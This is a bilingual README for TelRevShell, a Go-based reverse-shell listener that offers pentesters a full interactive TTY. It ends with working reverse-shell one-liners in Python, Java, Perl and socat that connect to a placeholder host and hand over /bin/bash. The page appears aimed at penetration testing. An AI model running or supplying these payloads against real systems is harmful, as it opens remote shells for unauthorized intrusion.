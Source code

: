 # TelRevShell

🚀 一个类 Telnet 风格的 交互式反弹Shell 服务端，支持交互控制、命令模式和跨平台运行，基于 Go 编写。

🚀 A telnet-style interactive reverse shell server with escape command mode, cross-platform support, and interactive terminal control – built with Go

---

## Features / 功能特点:

- 🖥️ Cross-platform support (Linux, Windows, macOS) / 跨平台支持
- ⌨️ Interactive terminal with raw mode handling / 原生终端交互体验
- 🎛️ Escape key based command-mode (Ctrl+]) / 支持类 Telnet 快捷键命令模式（Ctrl+]）
- 🔄 Auto-reconnect and force-exit support / 支持断开重连与强制退出操作

---

If you encounter the following problems during pentesting / 如果你在渗透测试时遇到这些问题

- Some commands, like `apt` and `ssh` require a proper terminal to run / 一些指令像 `apt` 和 `ssh` 需要一个真终端才能运行.
- STDERR usually isn’t displayed / 看不到STDERR
- Can’t properly use text editors like `vim` / 不能使用vim等编辑器
- No tab-complete / 没有Tab补全
- No up arrow history / 不能使用PgUP查看历史指令
- No job control / 没有Job Control
- No color / 没有颜色

## When traditional reverse shells fail you... / 当传统反连Shell不够用时...

In many real-world pentesting scenarios, you end up getting back a very limited or *dumb shell*. These shells often lack interactivity and have broken terminal behaviors.

在真实的渗透测试中，我们常常只能拿到一个非常“原始”的 *哑shell*。这些shell通常交互性差，终端行为异常。

For example:

- `nc` listener doesn't support terminal input signals, so you can't use `Ctrl+C` or `Ctrl+Z`
- `nc`监听时不支持输入信号，无法 `Ctrl+C`、`Ctrl+Z` 终止程序或挂起后台任务

- `socat` sometimes fails to release the port when forcefully terminated, causing `bind: address already in use` errors on restart
- `socat` 一旦强行结束后会出现端口未释放问题，重启时显示 `bind: address already in use`

- You may end up killing your listener or locking yourself out if the shell crashes
- 一旦远程Shell崩溃，你可能直接断连且端口仍被占用，无法恢复监听

---

## TelRevShell tries to fix that

**TelRevShell** is a Go-based reverse shell listener/server that behaves like Telnet, offering a persistent, interactive terminal interface.

**TelRevShell** 是一个类Telnet风格的反向Shell服务器，使用Go编写，支持「持久连接 + 真终端 + 命令控制」。

- A full TTY experience (arrow keys, colors, editors like `vim`)
  - 全TTY体验（方向键、颜色、支持`vim`等编辑器）

- Ctrl+C works (SIGINT forwarded)
  - 支持 `Ctrl+C` 发送SIGINT中断

- Escape key command-mode (`^]`) lets you drop into control
  - 快捷键 `Ctrl+]` 进入命令模式，可随时查看状态或安全退出

- Clean shutdown and reconnect logic
  - 支持清理退出，优雅等待客户端重连

- Port reliably released after disconnection
  - 解除绑定后端口自动释放，无需手动kill进程

---

## interactive revshell examples / 交互式反弹shell样例

Python3: 

```python3
import socket,subprocess,os,pty;s=socket.socket();s.connect(("1.2.3.4",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")
```

Java:

```java
import java.io.*;import java.net.*;class R{public static void main(String[] a)throws Exception{Socket s=new Socket("1.2.3.4",1337);Process p=new ProcessBuilder("/bin/bash").redirectErrorStream(true).start();InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);}}}
```

Perl:

```perl
use Socket;$i="1.2.3.4";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};
```

Socat:

```bash
socat TCP:1.2.3.4:1337 EXEC:"/bin/bash",pty,stderr,sigint,sane
```

